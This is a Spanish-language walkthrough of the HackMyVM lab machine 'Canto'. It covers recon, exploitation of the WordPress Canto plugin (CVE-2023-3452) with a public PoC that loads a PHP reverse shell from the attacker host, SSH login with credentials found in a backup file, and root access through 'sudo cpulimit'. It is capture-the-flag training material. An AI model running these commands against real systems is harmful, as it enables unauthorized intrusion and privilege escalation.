___
Tags: #canto #wpscan #cpulimit
___
# Canto

## Información General

**- Dificultad:** Fácil <br>
**- Sistema operativo:** Linux <br>
**- Vulnerabilidad explotada.** Plugin (Canto) y Binario SUID (cpulimit) <br>
**- Fecha de resolución:** 08/03/2026 <br>
**- Enlace:** [Canto](https://hackmyvm.eu/machines/machine.php?vm=Canto) <br>

## Reconocimiento

**Hackmyvm** nos proporciona la ip de la máquina objetivo **192.168.0.106**

**ARP-SCAN**

Ejecutamos el siguiente comando:

```
sudo arp-scan -I eth0 --localnet --ignoredups
```

<p align="center"> 

</p>

El prefijo **08:00:27** es el identificador único de organización (OUI) asignado por defecto a las tarjetas de red de Oracle VM VirtualBox

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 192.168.0.106
```

**Su el ttl es 64. Por tanto, es Linux**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 192.168.0.108
```

<p align="center"> 

</p>

| Open port | Service | Version                         |
| --------- | ------- | ------------------------------- |
| 22        | ssh     | OpenSSH 9.3p1 Ubuntu 1ubuntu3.3 |
| 80        | http    | Apache httpd 2.4.57             |

### Enumeración web

#### Gobuster

```
gobuster dir -u http://192.168.0.106 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

Esta ruta **wp-admin** nos lleva exactamente al login de wordpress

## Explotación

Si realizo un wpscan con el típico comando que suelo usar, no funcionará, no me encontrara ni usuario ni plugins.

Por tanto, con el siguiente comando se esforzará encontrar que plugin tiene instalado wordpress.

```
wpscan --url http://192.168.0.106/ --plugins-detection aggressive -t 50 
```

<p align="center"> 

</p>

En el plugin que nos centraremos es **canto** tiene un fallo en `download.php`. Le puedes decir "carga este archivo" y WordPress lo **ejecuta sin preguntar**, [aquí](https://github.com/leoanggal1/CVE-2023-3452-PoC) es donde descargamos el exploit.

```
git clone https://github.com/leoanggal1/CVE-2023-3452-PoC
```

Luego ejecutamos el siguiente comando, no es necesario crear un entorno virtual de python, ya que la libreria que necesitamos, ya lo tiene de base nuestra kali.

```
python3 CVE-2023-3452.py -u http://192.168.0.106/ -LHOST 192.168.0.108 -LPORT 8080 -c 'id'
```

<p align="center"> 

</p>

Este comando solo es una prueba, para probar que funciona, y sí funciona. Por tanto, lo siguiente será realizar una reverse shell de la siguiente manera, tenemos preparado nuestro archivo **reversehell.php**

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse-shell.php
```

<p align="center"> 

</p>

```
python3 CVE-2023-3452.py -u http://192.168.0.106/ -LHOST 192.168.0.108 -LPORT 8080 -NC_PORT 4443 -s reverse-shell.php
```

<p align="center"> 

</p>

## Explotación Posterior

#### TTY

```
script /dev/null -c bash
```

A continuación procedo a investigar el entorno, y me encuentro la siguiente nota:

> I almost lost the database with my user so I created a backups folder.

Basicamente, hay un backups del usuario erik, en la siguiente ruta es donde se encuentra **/var/wordpress/backups/12052024.txt**

<p align="center"> 

</p>

Recordemos que tenemos el puerto ssh abierto:

```
ssh erik@192.168.0.106
```

<p align="center"> 

</p>

## Escalada de Privilegios

### Primer comando:

```
sudo -l
```

<p align="center"> 

</p>

En esta [pagina](https://gtfobins.org/gtfobins/cpulimit/) Encontramos como explotar el binario 

```
sudo cpulimit -l 100 -f /bin/sh
```

<p align="center"> 

</p>

Luego en la ruta **/root/root.txt** encontrarás la flag de root.

## Conclusión

La máquina **Canto** de **HackMyVM** resultó interesante. Inicialmente WPScan falló detectando usuarios y plugins en modo estándar, así que forcé enumeración agresiva para descubrir Canto. Obtuve RCE como www-data y encontré backups con credenciales para acceso SSH. Por último, en la escalada de privilegio el binario SUID cpulimit permite spawnear shell root